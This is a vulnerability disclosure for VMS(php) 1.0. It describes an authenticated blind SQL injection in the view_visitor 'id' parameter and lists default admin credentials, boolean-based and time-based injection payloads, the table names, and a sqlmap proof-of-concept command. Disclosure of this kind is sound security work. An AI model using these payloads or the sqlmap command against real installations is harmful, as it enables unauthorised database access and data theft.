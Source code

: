 <div align="center">
    <h1>VMS(php) Visitor Management System</h1>
    <h3>Authenticated Blind SQL Injection (View Visitor)</h3>
    <br />
    <!-- Vendor -->
    <a href="https://www.sourcecodester.com/">
        <img src="https://img.shields.io/badge/vendor-sourcecodester.com-8DD6F9?style=for-the-badge&logo=webpack" alt="Vendor: sourcecodester.com" title="Vendor: sourcecodester.com" />
    </a>
    <!-- Version & Download -->
    <a href="https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-vms.zip">
        <img src="https://img.shields.io/badge/version-1.0-F16728?style=for-the-badge&logo=vitess" alt="Version: 1.0" title="Version: 1.0" />
    </a>
    <!-- Vulnerability -->
    <a href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection">
        <img src="https://img.shields.io/badge/vulnerability-Blind%20SQL%20Injection-EAEAEA?style=for-the-badge&logo=owasp" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <!-- Exploit -->
    <a href="#">
        <img src="https://img.shields.io/badge/exploit-Not found-494649?style=for-the-badge&logo=hackaday" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <br />
</div>

---

## 📝 Description

VMS(php) 1.0 allows Authenticated Blind SQL Injection (Time-based & Boolean-based) via the GET parameter `id` in the `/?page=view_visitor` endpoint.

This endpoint can be triggered through the following menu: Visitor List > Action > View visitor.

## ℹ️ Information

**Entrypoint**: http://localhost/php-sqlite-vms/

**Default credentials**:

| Username | Password |
| --- | --- |
| admin | sourcecodester&123 |

## 💉 Injection Point

```sql
Parameter: id (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: /?page=view_visitor&id=4' AND 2488=2488 AND 'cutA'='cutA

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: /?page=view_visitor&id=4' AND 5085=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'UtVl'='UtVl
```

## 📋 Database Schema

```
[3 tables]
+-----------------+
| sqlite_sequence |
| user_list       |
| visitor_list    |
+-----------------+
```

## 🕹️ Proof of Concept

```sh
sqlmap --url 'http://localhost/php-sqlite-vms/?page=view_visitor&id=1' -p 'id' --dbms 'sqlite' --technique 'BT' --cookie 'PHPSESSID=9447ea9b...'
```